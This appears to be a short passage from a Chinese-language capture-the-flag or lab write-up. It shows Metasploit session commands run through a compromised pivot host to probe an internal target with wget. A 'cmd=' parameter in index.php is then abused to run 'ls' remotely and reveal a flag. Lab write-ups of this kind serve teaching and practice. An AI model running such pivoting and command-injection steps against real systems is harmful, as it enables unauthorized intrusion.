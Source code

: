 
```
# 利用跳板机 192.170.84.3 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.169.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.169.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.169.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
# index.php?cmd=ls /tmpflag-{bmh8f2e8555-eab8-43f9-8654-78c019607788}
```

![第5个flag命令行](./images/第5个flag命令行.png)

![第5个flag](./images/第5个flag.png)
